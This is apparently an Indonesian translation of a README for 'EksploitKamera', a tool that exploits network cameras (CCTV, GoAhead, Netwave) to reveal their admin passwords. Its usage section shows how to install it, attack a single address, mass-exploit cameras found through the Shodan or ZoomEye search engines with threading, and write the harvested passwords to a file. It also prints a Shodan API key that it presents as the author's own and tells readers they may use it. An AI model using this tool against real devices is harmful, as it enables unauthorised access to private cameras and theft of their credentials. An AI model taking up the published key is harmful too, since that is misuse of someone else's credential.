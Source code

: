 EksploitKamera adalah alat eksploitasi kamera yang memungkinkan pengungkapan kata sandi admin kamera jaringan.

## Fitur

* Mengeksploitasi kerentanan pada sebagian besar model kamera populer seperti `CCTV`, `GoAhead`, dan `Netwave`.
* Dioptimalkan untuk mengeksploitasi beberapa kamera sekaligus dari daftar dengan threading diaktifkan.
* Penggunaan CLI dan API yang sederhana.

## Instalasi

```shell
pip3 install git+https://github.com/EntySec/CamOver
```

## Penggunaan dasar

Untuk menggunakan EksploitKamera, ketik saja `eksploitkamera` di terminal Anda.

```
penggunaan: eksploitkamera [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN]

[--zoomeye ZOOMEYE] [-p PAGES]

eksploitkamera adalah alat eksploitasi kamera yang memungkinkan pengungkapan kata sandi admin kamera jaringan.

argumen opsional:
-h, --help tampilkan pesan bantuan ini dan keluar
-t, --threads Gunakan thread untuk pekerjaan tercepat.
-o OUTPUT, --output OUTPUT
Hasil Untuk file.
-i INPUT, --input INPUT
File alamat.
-a ADDRESS, --address ADDRESS
Satu alamat. --shodan SHODAN Kunci API Shodan untuk mengeksploitasi perangkat melalui Internet.
--zoomeye ZOOMEYE Kunci API ZoomEye untuk mengeksploitasi perangkat melalui Internet.
-p PAGES, --pages PAGES
Jumlah halaman yang ingin Anda dapatkan dari ZoomEye.
```

### Contoh 

**Mengeksploitasi satu kamera**

```shell
eksploitkamera -a 192.168.99.100
```

**Mengeksploitasi kamera dari Internet**

Menggunakan mesin pencari Shodan untuk mengeksploitasi kamera melalui Internet, Menggunakannya dengan `-t` untuk eksploitasi cepat.

```shell
eksploitkamera -t --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**CATATAN:** ​​Mengingat kunci API Shodan (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) adalah kunci API PRO saya, Anda dapat menggunakan kunci ini atau kunci Anda sendiri,
bebas menggunakan semua sumber daya kami secara gratis :)

**Mengeksploitasi kamera dari file input**

Menggunakan basis data kamera yang dibuka dengan `-t` untuk eksploitasi cepat.

```shell
eksploitkamera -t -i camera.txt -o passwords.txt
```

**CATATAN:** ​​Ini akan mengeksploitasi semua kamera dalam daftar `cameras.txt` berdasarkan alamatnya dan menyimpan semua kata sandi yang diperoleh
ke `passwords.txt`.

## Penggunaan API

EksploitKamera juga memiliki API Python mereka sendiri yang dapat dipanggil dengan mengimpor EksploitKamera ke kode Anda.

```python
from eksploitkamera import EksploitKamera
```

### Fungsi dasar

Ada semua fungsi dasar EksploitKamera yang dapat digunakan untuk mengeksploitasi kamera tertentu.

* `exploit(address)` - Mengeksploitasi satu kamera dengan alamat yang diberikan.

### Contoh

**Mengeksploitasi satu kamera**

```python
from eksploitkamera import EksploitKamera

eksploitkamera = EksploitKamera()
creds = eksploitkamera.exploit('192.168.99.100')

print(creds)
```
